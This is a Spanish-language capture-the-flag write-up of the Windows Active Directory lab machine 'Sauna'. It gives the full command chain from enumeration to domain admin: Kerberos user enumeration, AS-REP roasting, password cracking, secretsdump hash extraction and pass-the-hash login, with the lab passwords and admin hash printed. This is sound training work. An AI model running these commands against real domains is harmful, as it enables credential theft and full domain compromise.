## Box Info

| Name                  | Sauna            | 
| :-------------------- | ---------------: |
| Release Date          | 15 Feb, 2020     |
| OS                    | Windows          |
| Rated Difficulty      | Easy             |

```zsh
ping -c 3 10.10.10.175     
PING 10.10.10.175 (10.10.10.175) 56(84) bytes of data.
64 bytes from 10.10.10.175: icmp_seq=1 ttl=127 time=179 ms
64 bytes from 10.10.10.175: icmp_seq=2 ttl=127 time=179 ms
64 bytes from 10.10.10.175: icmp_seq=3 ttl=127 time=180 ms

Maquina Windows
```

## Recon

```zsh
# Nmap 7.95 scan initiated Thu Jun 26 14:04:00 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49676,49698,49718 -oN targeted 10.10.10.175
Nmap scan report for 10.10.10.175
Host is up (0.22s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-27 03:04:09Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49718/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2025-06-27T03:05:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

`Domain: EGOTISTICAL-BANK.LOCAL`

### Web - 80


- Team


### Kerbrute

Usamos ``Kerbrute`` para enumerar nombres de usuario válidos frente a Kerberos.

```zsh
./kerbrute userenum -d EGOTISTICAL-BANK.LOCAL usernames.txt --dc EGOTISTICAL-BANK.LOCAL
```



`fsmith@EGOTISTICAL-BANK.LOCAL`

## KRB_AS_REP Roasting

Identificar usuarios sin autenticación previa de Kerberos (`UF_DONT_REQUIRE_PREAUTH`). Esto permite solicitar una **TGT (Ticket Granting Ticket)** sin proporcionar credenciales primero.

```zsh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/fsmith -no-pass
```



## John

Save tgt to file and crack it with john

```zsh
john hash -w=/usr/share/wordlists/rockyou.txt 
```



```zsh
Thestrokes23
```

## SMB Enum

```zsh
nxc smb EGOTISTICAL-BANK.LOCAL -u fsmith -p "Thestrokes23" --shares
```





### RPC - 135

```zsh
rpcclient -U 'fsmith%Thestrokes23' 10.10.10.175 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
```

```r
HSmith
FSmith
svc_loanmgr
```

```zsh
nxc winrm EGOTISTICAL-BANK.LOCAL -u fsmith -p "Thestrokes23"
```



## WinPEAS

- Upload winpeas to enumerate possible privilege escalation



```
svc_loanmanager
Moneymakestheworldgoround!
```

### Verify Creds

```zsh
nxc smb EGOTISTICAL-BANK.LOCAL -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
```



```zsh
nxc winrm EGOTISTICAL-BANK.LOCAL -u "svc_loanmgr" -p 'Moneymakestheworldgoround!'
```


Con el usuario svc_loanmgr podemos dumpear los hashes desde el archivo NTDS.dit y este archivo tiene todos los usuarios del AD incluyendo al administrator, pero para poder dumpearlo necesitamos saber si el usuario svc_loanmgr es parte del grupo Domain Admins, Enterprise Admins o tener acceso de backup\restore. De lo contrario no podra dumpear el ntds.dit directamente.

```zsh
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u svc_loanmgr -p 'Moneymakestheworldgoround!' -ns 10.10.10.175 --zip -c All
```



Impacket-secretsdump es un script que permite extraer hashes mediante tickets Kerberos. Resulta especialmente útil para la extracción de credenciales cuando se tiene acceso a un controlador de dominio de Windows.

```zsh
/usr/bin/impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@sauna.htb
```



```zsh
evil-winrm -i 10.10.10.175 -u "administrator" -H '823452073d75b9d1cf70ebdf86c7f98e'
```


